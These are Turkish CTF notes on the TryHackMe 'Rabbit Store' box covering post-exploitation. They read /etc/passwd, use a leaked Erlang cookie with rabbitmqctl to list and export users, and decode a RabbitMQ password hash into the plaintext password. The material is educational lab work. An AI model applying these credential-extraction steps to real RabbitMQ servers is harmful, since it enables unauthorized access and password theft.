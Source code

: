 
https://0xb0b.gitbook.io/writeups/tryhackme/2025/rabbit-store

shell aldıkdan sonra 
```bash
cat /etc/passwd 
```
eğer cıktısınde
https://0xb0b.gitbook.io/~gitbook/image?url=https%3A%2F%2F2148487935-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FoqaFccsCrwKo1CHmLRKW%252Fuploads%252FxG9xNZl0ZlMWD5jr0AJS%252Fgrafik.png%3Falt%3Dmedia%26token%3D0a3cad89-c497-4fac-9156-e103f2af3ae7&width=768&dpr=4&quality=100&sign=bc4a778&sv=2 bu resimdeki gibi ise 

ve elimize cookie geçerse çözdüğümüz ctfin hostuna forge eklenir

```bash
echo "ip forge" >> /etc/hosts
```

statusa bakılır ve 
```bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge status
```
userler listelenir

```bash
 sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge list_users
```

daha sonra userler ve hasheri export edilir json dosyasına yazdıırlır
``` bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge export_definitions users.json
```
daha sonra bu cıkan sonucu tek komutla (algoritmasını çözme) decode etme çıkan sonuç kimin hashini aldıysak şifresidir


algoritma: 
- hash base64 ile decode edilir
- cıkan sonucu hex ile decode edilir boşluklar sinir ve ilk 8 karakter silinir daha sonra kalan ise Şifredir. 

```bash
 echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16[REDACTED]98073585
```

